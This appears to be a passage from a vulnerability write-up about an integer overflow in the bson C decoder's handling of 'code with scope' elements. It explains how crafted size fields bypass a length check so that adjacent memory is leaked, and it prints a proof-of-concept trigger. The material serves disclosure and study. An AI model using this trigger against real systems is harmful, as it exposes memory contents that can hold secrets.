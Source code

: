 ```c

            if ((code_type = _get_object(state->Code, "bson.code", "Code"))) {
                value = PyObject_CallFunctionObjArgs(code_type, code, scope, NULL);
                Py_DECREF(code_type);
            }
            Py_DECREF(code);
            Py_DECREF(scope);
            break;
        }
```

The type "code with scope" contains the function code itself (usually JavaScript) and its scope, where the scope is a mapping of closured variables. The code is straightforward so I won't describe it in details.

The vulnerable part is here:

```c
            /* code length + code + scope length + scope */
            if ((4 + code_size + 4 + scope_size) != c_w_s_size) {
                Py_DECREF(code);
                goto invalid;
            }
```

Please note that variables `code_size`, `scope_size`, and `c_w_s_size` are controlled by attacker since they are stored in the input buffer as 4-byte integers. Since all variables are uint32_t integers it's possible to trigger integer overflow here. We can set the `scope_size` to "negative" value (in unsigned integers it means a "big" value) and bypass the check using crafted `code_size` and `c_w_s_size` values.

Then the `scope_size` is passed to `elements_to_dict()` function. If the variable is big enough the function will deserialize the unmanaged memory (next to buffer). This memory will be interpreted as bson structure with fields "type" and "fieldname". If we set the "type" to some invalid value (for example \x00) bson will throw the exception with "fieldname" string.

The example of trigger (from PoC file):

```python
bytes.fromhex(
    struct.pack('<I', length).hex() + # payload size
    '0f' + # type "code with scope"
    '3100' + # key (cstring)
    '0a000000' + # c_w_s_size
    '04000000' + # code_size
    '41004200' + # code (cstring)
    'feffffff' + # scope_size
    '02' + # type "string"
    '3200' + # key (cstring)
    struct.pack('<I', string_size).hex() + # string size
    '00' * string_size # value (cstring)
    # next bytes is a field name for type \x00
    # type \x00 is invalid so bson throws an exception
)
```
